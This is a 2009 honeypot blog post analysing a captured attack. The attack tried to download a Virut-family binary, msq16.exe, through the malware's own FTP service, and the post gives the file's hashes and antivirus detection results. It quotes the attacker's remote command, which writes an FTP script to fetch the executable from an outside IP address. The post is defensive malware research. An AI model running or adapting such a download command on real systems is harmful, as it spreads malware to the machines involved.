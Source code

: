 ```yaml
---
title: "Iteolih: malicious ftp services"
authors: ["Markus Koetter"]
date: "2009-07-26"
tags: 
  - "iteolih"
---
```

{{<figure src="images/banner.png" alt="Banner" width="50%">}}

Yesterday, I got an incomplete, but successful, attack on my honeypot, the attackers remote code execution looked like this:  

  

**WinExec("cmd /c echo open 78.1.96.200 4871 > o&echo user 1 1 >> o &echo get msq16.exe >> o")  
ExitThread(0)**  

  

  
As the required part to download the malware to the remotehost was incomplete, I got curious and wanted a copy.  

  
  

I did not expect downloading the malware getting a problem, as all information required was available, including host credentials and filename. But, as the ftp service embedded in the malware is still special, it was a problem.  
The ftp service [is designed to work with the windows ftp client](http://nepenthes.carnivore.it/documentation:modules:downloadhandler:download_ftp "nepenthes, ftp download problems"), the windows ftp only provides active ftp, active ftp does not work on nat if the ftp service port is not on default port 21. 
Apart from that, the ftp service may [fail with 6% of all ports](http://nepenthes.carnivore.it/news_archive:2006#a_common_bug "ftp PORT parsing 0xf").

  

I've had the same problems with nepenthes 3 years ago, but had the slight hope the malware authors might have fixed it in the meantime. Obviously I was wrong.

  

As I was looking for a more general solution than using netcat, I scripted a small ftp client in python, using pythons ftplib. Provided your external ip and a forwarded port range, the client is able to download files via active ftp from _Designed for Windows_ ™ ftp services.

  

You can download the script [here](http://svn.carnivore.it/browser/dump/ftpexe.py "ftpexe.py script"), verified to work with python3.x and 2.x.

  

  

After getting the file,

  

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

| msq16.exe |
| --- |
| File size: 550912 bytes |
| MD5   : 8d599fa3d633de4d24dea51af67a61c9 |
| SHA1  : f11188ad9501c1b6cdc051c6cd09776eec5b282e |
| SHA256: 75dd3c06d832a270e0838b3eaf87ad428f3bab16e2599a33c4415dc94362547c |

  

  

I sent it to virustotal.com, here is the report:

  

  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

| Antivirus | Version | Last Update | Result |
| --- | --- | --- | --- |
| a-squared | 4.5.0.24 | 2009.07.25 | Trojan.Win32.Refroso!IK |
| AhnLab-V3 | 5.0.0.2 | 2009.07.25 | Win32/Virut.B |
| AntiVir | 7.9.0.228 | 2009.07.24 | W32/Virut.AX |
| Antiy-AVL | 2.0.3.7 | 2009.07.24 | \- |
| Authentium | 5.1.2.4 | 2009.07.25 | W32/Virut.7116 |
| Avast | 4.8.1335.0 | 2009.07.25 | Win32:Virtob |
| AVG | 8.5.0.387 | 2009.07.25 | Win32/Virut |
| BitDefender | 7.2 | 2009.07.25 | Trojan.Generic.2200851 |
| CAT-QuickHeal | 10.00 | 2009.07.25 | W32.Virut.Z |
| ClamAV | 0.94.1 | 2009.07.25 | W32.Virut-54 |
| Comodo | 1741 | 2009.07.25 | Worm.Win32.Email-Worm.generic.daisy-1529 |
| DrWeb | 5.0.0.12182 | 2009.07.25 | Trojan.KeyLogger.2526 |
| eSafe | 7.0.17.0 | 2009.07.23 | \- |
| eTrust-Vet | 31.6.6640 | 2009.07.25 | Win32/Virut.7115 |
| F-Prot | 4.4.4.56 | 2009.07.25 | W32/Virut.7116 |
| F-Secure | 8.0.14470.0 | 2009.07.25 | Virus.Win32.Virut.av |
| Fortinet | 3.120.0.0 | 2009.07.25 | W32/Virut.AV |
| GData | 19 | 2009.07.25 | Trojan.Generic.2200851 |
| Ikarus | T3.1.1.64.0 | 2009.07.25 | Trojan.Win32.Refroso |
| Jiangmin | 11.0.800 | 2009.07.25 | Win32/Virut.af |
| K7AntiVirus | 7.10.802 | 2009.07.25 | Virus.Win32.Virut.av |
| Kaspersky | 7.0.0.125 | 2009.07.25 | Virus.Win32.Virut.av |
| McAfee | 5688 | 2009.07.25 | W32/Virut.gen.a |
| McAfee+Artemis | 5688 | 2009.07.25 | W32/Virut.gen.a |
| McAfee-GW-Edition | 6.8.5 | 2009.07.25 | Heuristic.LooksLike.Trojan.Dropper.J |
| Microsoft | 1.4903 | 2009.07.25 | Virus:Win32/Virut.AC |
| NOD32 | 4277 | 2009.07.25 | Win32/Virut.AV |
| Norman |   
 | 2009.07.24 | W32/Virut.AG |
| nProtect | 2009.1.8.0 | 2009.07.25 | Virus/W32.Virut.K |
| Panda | 10.0.0.14 | 2009.07.25 | W32/Virutas.FG |
| PCTools | 4.4.2.0 | 2009.07.25 | Win32.Virut.Gen.4 |
| Prevx | 3.0 | 2009.07.25 | \- |
| Rising | 21.39.52.00 | 2009.07.25 | Win32.Virut.an |
| Sophos | 4.44.0 | 2009.07.25 | W32/Virut-W |
| Sunbelt | 3.2.1858.2 | 2009.07.25 | Win32.Virut.av (v) |
| Symantec | 1.4.4.12 | 2009.07.25 | W32.Virut.W |
| TheHacker | 6.3.4.3.373 | 2009.07.24 | W32/Virut.av |
| TrendMicro | 8.950.0.1094 | 2009.07.25 | PE\_VIRUT.AV |
| VBA32 | 3.12.10.9 | 2009.07.24 | Virus.Win32.Virut.2 |
| ViRobot | 2009.7.25.1853 | 2009.07.25 | Win32.Virut.S |
| VirusBuster | 4.6.5.0 | 2009.07.25 | Win32.Virut.Gen.4 |
